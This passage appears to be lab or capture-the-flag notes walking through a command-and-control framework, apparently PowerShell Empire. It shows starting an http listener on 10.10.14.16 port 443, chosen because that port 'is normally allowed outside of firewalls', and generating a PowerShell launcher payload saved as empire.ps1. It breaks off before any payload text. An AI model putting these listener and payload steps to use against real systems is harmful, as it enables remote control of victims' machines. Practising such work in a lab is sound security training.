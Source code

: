 help to figure out all the commands available:

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864543016_image.png)

## setup listeners
This is the first command always run:

    listeners

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864622197_image.png)

    uselistener # tab a few times to see all the types of listerners

*using the “http” listener*

    uselistener http

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864725365_image.png)

run info - similar to show options on msf

    info

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864764531_image.png)

*we need to change the host and port.*

    set Host http://10.10.14.16:443
    set Port 443

*10.10.14.16 is the local ip port 443 is normally allowed outside of firewalls*

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864922930_image.png)

to start listener:

    execute

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556864956126_image.png)

back out of listener

    back

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556865024239_image.png)

generate powershell payload

    launcher powershell http

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556865063024_image.png)

On local box make a directory called `/http` and create a file name `empire.ps1`

    vi empire.ps1

paste power shell output
